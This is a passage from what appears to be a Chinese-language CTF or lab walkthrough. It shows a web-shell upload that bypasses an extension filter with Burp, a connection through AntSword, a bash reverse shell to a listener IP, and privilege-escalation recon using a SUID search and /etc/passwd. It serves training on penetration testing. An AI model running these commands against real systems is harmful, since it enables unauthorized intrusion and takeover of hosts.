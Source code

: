 （5）上马，BP抓包修改文件后缀为phtml，forward放包，成功上传

![image-20240828174005523](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281740571.png)

![image-20240828174025470](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281740526.png)

![image-20240828174035825](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281740879.png)

![image-20240828174044932](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281740985.png)

（6）蚁剑连接

![image-20240828174053565](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281740623.png)

（7）kali开启监听，反弹shell

```python
nc -lvvp 8888
bash -c 'bash -i >& /dev/tcp/192.168.186.135/8888 0>&1'
```

![image-20240828174101981](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281741045.png)

![image-20240828174110501](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281741548.png)

![image-20240828174119014](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281741088.png)

## 提权

（1）信息收集

```py
find / -perm -u=s -type f 2>/dev/null
cat /etc/passwd |grep /bin/bash
```

![image-20240828174129234](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281741342.png)

![image-20240828174141647](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281741750.png)

（2）前往/home目录下的lhq用户，发现很多文件

![image-20240828174154698](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281741827.png)

（3）利用命令对有效文件进行筛选,发现userflag50用户是特别的

```python
ls -liah
ls -la
su -l
```

![image-20240828174207984](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281742137.png)
